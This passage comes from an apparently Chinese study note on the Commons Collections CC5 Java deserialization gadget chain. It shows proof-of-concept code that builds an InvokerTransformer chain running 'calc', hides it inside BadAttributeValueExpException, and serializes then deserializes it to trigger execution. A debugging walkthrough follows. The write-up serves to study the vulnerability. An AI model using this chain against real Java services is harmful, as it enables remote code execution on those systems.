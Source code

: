 ```
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        Map outmap = LazyMap.decorate(innermap,chain);

        TiedMapEntry tiedMap = new TiedMapEntry(outmap,"DawnT0wn");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        Field field = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMap);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC5.bin"));
        os.writeObject(badAttributeValueExpException);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC5.bin"));
        fos.readObject();
    }
}

```

可以看到,从LazyMap开始就和CC1的是一模一样的了,打断点调试着来分析看看

直接从BadAttributeValueExpException类重写的readObject开始

一路执行到了toString方法

![image-20220126115359827](images/1.png)

但是不知道为什么前面在这里突然执行了命令,可能是调试的问题,当我断点打在LazyMap的时候这里就不弹计算器了,等会再说下一个遇到的问题
